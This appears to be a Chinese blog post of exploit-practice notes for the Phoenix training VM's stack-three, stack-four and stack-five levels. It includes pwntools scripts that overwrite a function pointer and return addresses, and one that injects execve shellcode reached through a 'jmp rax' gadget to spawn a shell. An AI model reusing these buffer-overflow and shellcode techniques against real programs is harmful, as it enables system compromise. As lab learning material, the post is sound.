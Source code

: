 ```yaml
---
title: "[pwn笔记2]stack-three, stack-four, stack-five(Phoenix)"
urlname: "[pwn笔记2]stack-three, stack-four, stack-five(Phoenix)"
date: March 21, 2023 2:29 PM
tags: [pwn, stack]
---
```

最近又是数模又是开学的，很难受，还是看看远方的~~水~~入门题吧。没有动态基址，还是比较简单的。

（写这段的时候还没想到接下来还有概率论考试，还打了场ctf校赛，所以。。。）

## **stack-three**

覆盖一个即将被调用的函数指针的数据，跟前面差不多。

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 0x40 + p64(0x40069d)
sh = shell.run(b"/opt/phoenix/amd64/stack-three")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))

```

## **stack-four**

覆盖栈上的返回地址。

![https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png](https://s2.loli.net/2023/02/25/YB5ux4CUSAeowPv.png)

`0x648-0x5f0=88`

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

s = b"a" * 88 + p64(0x40061d)
sh = shell.run(b"/opt/phoenix/amd64/stack-four")
sh.recvlines(1)
sh.sendline(s)
print(sh.recvlines(2))
```

## **stack-five**

需要拿到shell。由于栈是可执行的，可以利用gets来把shellcode读进来，覆盖返回地址来执行shellcode。

这个过程看起来非常完美，可是不知道为什么返回到栈上执行两步就会段错误。关掉了aslr，尝试了附加调试和取消gdb环境变量，以消除栈地址的变化，都没有进展。

后来看到了另一个方法：

![Untitled](/pics/%5Bpwn%E7%AC%94%E8%AE%B02%5Dstack-three,%20stack-four,%20stack-five(Phoeni%207b5b662947354bf68eff78239c6d2262/Untitled.png)

调用gets之前，s被放入了rax中。所以直接把shellcode放到最前面就会被rax指向。

我们可以用rop，找到一段`jmp rax`，返回到那里，然后下一步就会跳到shellcode了。

```
from pwn import *
shell = ssh("user", "localhost", password="user", port=2222)

total = 136
sc = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
jmp_rax = p64(0x400481)
s = sc+b"a"*(total-len(sc))+jmp_rax

sh = shell.run(b"/opt/phoenix/amd64/stack-five")
sh.recvlines(1)
sh.sendline(s)
sh.interactive()
```

还有一件事，gef可以用以下命令调整context里stack显示的行数

```
gef config context.nb_lines_stack 30
```

这样就不用在虚拟机里再装个peda了（这两个共存很卡）。
